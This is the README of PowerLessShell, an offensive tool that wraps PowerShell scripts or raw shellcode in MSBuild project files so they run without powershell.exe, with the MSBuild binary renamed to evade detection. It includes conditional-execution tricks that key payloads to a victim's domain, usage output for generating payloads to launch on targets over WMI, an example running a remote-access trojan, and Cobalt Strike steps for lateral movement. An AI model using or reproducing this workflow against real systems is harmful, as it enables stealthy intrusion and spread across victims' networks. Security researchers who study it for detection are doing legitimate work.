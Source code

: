 # PowerLessShell

PowerLessShell rely on MSBuild.exe to remotely execute PowerShell scripts and commands without spawning powershell.exe. 
You can also execute raw shellcode using the same approach.

To add another layer of crap the payload will copy msbuild.exe to something random and build the payload using the randomly generated binary.

* You can provide -knownprocess switch to use known Windows process name instead of renaming MsBuild.exe to something random

# MSBuild conditions 

MSBuild support condition that can be used to avoid running code if the condition is not met.

```
<Target Name="x" Condition="'$(USERDOMAIN)'=='RingZer0'">
```

The malicious code will only be executed if the current user domain is "RingZer0"

Condition supports several other formats that can be used to create more conditional execution check.

```
<Target Name="x" Condition="'$(registry:HKEY_LOCAL_MACHINE\blah@blah)'>='0'">
```

Property Functions also expose interesting data.

```
https://docs.microsoft.com/en-us/visualstudio/msbuild/property-functions
```

# Usage

Raw shellcode
```
$ python PowerLessShell.py


PowerLessShell - Remain Stealth
         More PowerShell Less Powershell.exe - Mr.Un1k0d3r RingZer0 Team
            ___
        .-"; ! ;"-.
      .'!  : | :  !`.
     /\  ! : ! : !  /\
    /\ |  ! :|: !  | /\
   (  \ \ ; :!: ; / /  )
  ( `. \ | !:|:! | / .' )
  (`. \ \ \!:|:!/ / / .')
   \ `.`.\ |!|! |/,'.' /
    `._`.\\!!!// .'_.'
       `.`.\|//.'.'
        |`._`n'_.'|
        `----^----"


(Set payload type 'powershell, shellcode')>>> shellcode

(Path to the raw shellcode file)>>> shellcode.raw

(Path for the generated MsBuild out file)>>> payload.csproj

(Set USERDOMAIN condition (Default ''))>>> RingZer0

(Use known process name to perform MsBuild renaming (Default: False))>>>

[+] payload.csproj was generated.
[+] payload.csproj.bat was generated.
[+] Run the command inside of payload.csproj.cmd on the target system using WMI.
```

Powershell
```
$ python PowerLessShell.py


PowerLessShell - Remain Stealth
         More PowerShell Less Powershell.exe - Mr.Un1k0d3r RingZer0 Team
            ___
        .-"; ! ;"-.
      .'!  : | :  !`.
     /\  ! : ! : !  /\
    /\ |  ! :|: !  | /\
   (  \ \ ; :!: ; / /  )
  ( `. \ | !:|:! | / .' )
  (`. \ \ \!:|:!/ / / .')
   \ `.`.\ |!|! |/,'.' /
    `._`.\\!!!// .'_.'
       `.`.\|//.'.'
        |`._`n'_.'|
        `----^----"


(Set payload type 'powershell, shellcode')>>> powershell

(Path to the PowerShell script)>>> payload.ps1

(Path for the generated MsBuild out file)>>> payload.csproj

(Set USERDOMAIN condition (Default ''))>>>

(Use known process name to perform MsBuild renaming (Default: False))>>>

[+] payload.csproj was generated.
[+] payload.csproj.bat was generated.
[+] Run the command inside of payload.csproj.cmd on the target system using WMI.
```

Inline command
```
python PowerLessShell.py powershell.ps1 output (optional shellcode, -knownprocess)


PowerLessShell - Remain Stealth
         More PowerShell Less Powershell.exe - Mr.Un1k0d3r RingZer0 Team
            ___
        .-"; ! ;"-.
      .'!  : | :  !`.
     /\  ! : ! : !  /\
    /\ |  ! :|: !  | /\
   (  \ \ ; :!: ; / /  )
  ( `. \ | !:|:! | / .' )
  (`. \ \ \!:|:!/ / / .')
   \ `.`.\ |!|! |/,'.' /
    `._`.\\!!!// .'_.'
       `.`.\|//.'.'
        |`._`n'_.'|
        `----^----"




[+] output was generated.
[+] output.bat was generated.
[+] Run the command inside of output.cmd on the target system using WMI.
```

# Example

The following example is running the RC4 RAT https://github.com/Mr-Un1k0d3r/RC4-PowerShell-RAT without running a single instance of PowerShell

![PowerLessShell](https://ringzer0team.com/powershellless.png)

# Cobalt Strike Aggressor script (wmi_msbuild.cna) By MrT-F

cd into your cobalt strike client directory
```
cd /root/cobaltstrike
```
Clone this repository into folder PowerLessShell
```
git clone https://github.com/Mr-Un1k0d3r/PowerLessShell.git
```
Load the aggressor script in your Cobalt Strike Console
Laterally move just like other Cobalt Strike macros:
```
wmi_msbuild [target] [listener]
```

# Credit
Mr.Un1k0d3r RingZer0 Team 2017

